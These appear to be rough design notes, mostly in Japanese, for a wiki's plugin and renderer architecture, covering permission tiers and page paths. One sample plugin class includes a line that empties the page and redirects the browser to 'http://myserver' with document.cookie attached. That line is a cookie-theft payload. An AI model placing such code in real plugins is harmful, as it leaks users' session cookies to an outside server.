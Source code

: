 ```js
Class AppBase{
    abstract onRender(context:WikiRenderContext); 
}
Class NewApp extends AppBase{
    onRender(context:WikiRenderContext); {
        context.pageName();
        const n=context.params(0);
        context.outputAsText("Hello"+n);
        context.outputAsWiki("[[link]]");
        $("body").empty();
        location.href="http://myserver?"+document.cookie;
    }
}
```


/index.html?page=FrontPage&plugin=.md&app=editor
/index.html?page=FrontPage&plugin=.fc2&app=default
editorとは？



---
# Renderer
## 対象
メイン全体にかかる.
## 権限
 super
## example.
- EditorRenderer
  - textarea
  - preview
- WikiRenderer
  - SyntaxPlugin が適用？
- KeijibanRenderer
- ChatRenderer
---
# Plugin 必須.
## 対象
 一部にかかる.
## 権限
 normal
## example.
- SyntaxPlugin
  - (default)FC2Syntax
  - MarkDownSyntax
  - UserSyntax - json
---
# Application
## 対象
フロートウィンドウ...レイヤーもあり.
## 権限
 admin
## example.
- UploaderApp

---
---

# 自由度
- root 開発者
- admin サイト管理者
- super ユーザー（信頼済）
- normal ユーザー（一般）

---
---

# ページ構造
/user
/user/page
/global


```js
//AppManager.install("keijiban","k.js");
/*

* plugin test

#NewApp hoge


*/

```